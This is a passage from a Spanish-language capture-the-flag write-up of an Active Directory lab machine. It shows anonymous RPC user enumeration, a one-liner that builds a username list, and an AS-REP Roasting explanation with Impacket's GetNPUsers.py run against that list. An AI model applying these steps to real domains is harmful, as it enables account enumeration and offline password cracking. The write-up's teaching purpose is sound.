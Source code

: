 ```bash
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[ammar] rid:[0x2581] 
```

Empleamos el siguiente comando para extraer únicamente los usuarios.

```bash
❯ rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v 0x | tr -d "[]" > users.txt
```

## Explotación

---

### AS-RepRoast attack

Ahora que disponemos de una lista de usuarios de dominio, estamos en posición de llevar a cabo el ataque conocido como "AS-REP Roasting". Para ejecutar este tipo de ataque, es necesario que una cuenta tenga la propiedad "No requerir autenticación previa de Kerberos" o `UF_DONT_REQUIRE_PREAUTH` establecida en "true".

El siguiente paso es solicitar el Ticket Granting Ticket (TGT) cifrado para ese usuario en particular. Dado que el TGT contiene información cifrada utilizando el hash NTLM del usuario, podemos someterlo a un ataque de fuerza bruta offline con el objetivo de intentar obtener la contraseña.

Un script útil para llevar a cabo esta tarea es [GetNPUsers.py](http://getnpusers.py/) de Impacket, que permite solicitar un ticket TGT y volcar el hash correspondiente.

```bash
❯ /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -no-pass -usersfile users.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
```